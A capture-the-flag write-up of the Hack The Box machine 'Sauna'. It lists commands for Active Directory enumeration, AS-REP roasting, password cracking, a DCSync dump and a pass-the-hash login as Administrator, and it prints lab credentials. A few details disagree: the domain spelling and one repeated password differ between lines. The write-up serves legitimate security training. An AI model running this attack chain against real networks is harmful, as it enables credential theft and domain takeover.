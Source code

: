 ```yaml
---
date: 2025-02-03
categories: [Windows, Easy, AD]
---
```


![Sauna](https://labs.hackthebox.com/storage/avatars/f31d5d0264fadc267e7f38a9d7729d14.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egotisticalSW](https://app.hackthebox.com/users/94858)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open --min-rate 3000 -vvv -sS -Pn 10.10.10.175 -oG scan
/opt/extractports scan
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49695 -Pn -sCV 10.10.10.175 -oN ports
```

![image](https://github.com/user-attachments/assets/fd366729-1ec1-48b3-a86a-60ae529dc415)

-  I found the domain `EGOTISTICAL-BANL.LOCAL`, I added it to the file in the `hosts` file
- When I see port 53 open, I gather different information and find a subdomain.

```python
dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL any
```

![image](https://github.com/user-attachments/assets/9863699c-70f3-4eb4-b5d2-d5dda8f31fbe)

- Looking at the different pages I find one with names and surnames of potential users.

![image](https://github.com/user-attachments/assets/8ef3fdac-ff36-4db9-a104-3b0ba2d43240)

- Using the names and surnames found I create a dictionary of users that I will validate with kerbrute to find those that exist in the system. 

```python
./username-anarchy -i ../users > usuarios
/opt/kerbrute userenum  --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL /home/rufo/usuarios
```

![image](https://github.com/user-attachments/assets/35693abf-6086-45ea-9d5b-677d1f3300b2)

- I check if I can make a we ASREPRoast Attack with the found user. I get his TGT and manage to get his password in clear text.

```python
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users
hashcat -m 18200 TGT_fsmith /usr/share/wordlists/rockyou.txt 
```

- I verify the credentials and get access to the system through winrm to read the first flag.

```python
netexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

![image](https://github.com/user-attachments/assets/05b88d2e-c6cb-4db6-ad55-6411a03e966b)

- At this point I run winpeas to get a broader view of the system I am dealing with. I notice in the output that there are some autologon credentials. I check if the password found belongs to a user and confirm that they belong to svc_loanmgr.

![image](https://github.com/user-attachments/assets/faf4cb13-11be-4276-9f91-9e38f3bf4594)

```python
netexec smb 10.10.10.175 -u svc_loanmgr -p Monkeymakestheworldground!
```

- At this point I collect information from the system in order to use bloodhound and look for possible routes to escalate my privileges.

```python
neo4j console
bloodhound &>/dev/null &
netexec ldap 10.10.10.175 -u fsmith -p Thestrokes23 --bloodhound --collection All --dns-server 10.10.10.175
```

- Thanks to bloodhound I see that I have enough permissions with svc_loanmgr to perform a DCSync attack and get the NTLM hash of the administrator user. With this I can do PtH, access the system and read the second flag.

![image](https://github.com/user-attachments/assets/c6748817-ec82-4071-a457-0b1e0ee46d73)

```python
netexec smb 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround! --ntds --user Administrator
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

